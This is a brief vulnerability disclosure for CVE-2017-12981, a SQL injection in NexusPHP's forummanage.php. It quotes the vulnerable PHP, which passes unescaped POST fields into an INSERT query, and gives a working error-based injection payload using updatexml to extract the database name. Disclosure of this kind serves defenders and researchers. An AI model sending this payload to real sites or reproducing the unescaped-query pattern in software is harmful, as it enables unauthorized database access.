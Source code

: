 ## CVE-2017-12981
## nexusphp v1.5.beta5.20120707 sql injection
### powered by minhaizhao from Anyuntec
### version: v1.5.beta5.20120707
### Download link:https://sourceforge.net/projects/nexusphp/
#### /nexusphp.v1.5.beta5.20120707/forummanage.php  Line 63

```
elseif ($_POST['action'] == "addforum") {
	$name = ($_POST['name']);
	$desc = ($_POST['desc']);
	if (!$name && !$desc) {
		header("Location: " . get_protocol_prefix() . "$BASEURL/forummanage.php");
		die();
	}
	sql_query("INSERT INTO forums (sort, name,  description, minclassread,  minclasswrite, minclasscreate, forid) VALUES(" . $_POST['sort'] . ", " . sqlesc($_POST['name']). ", " . sqlesc($_POST['desc']). ", " . $_POST['readclass'] . ", " . $_POST['writeclass'] . ", " . $_POST['createclass'] . ", ".sqlesc(($_POST['overforums'])).")") or sqlerr(__FILE__, __LINE__);
```
***$_POST['sort']***   has not been filtered to cause injection
###exp：
```
action=addforum&name=1desc=1&sort=11 or updatexml(1,concat(0x7e,(database())),0)&readclass=1&writeclass=1&createclass=1&overforums=1
```
![Alt text](./001.jpg)

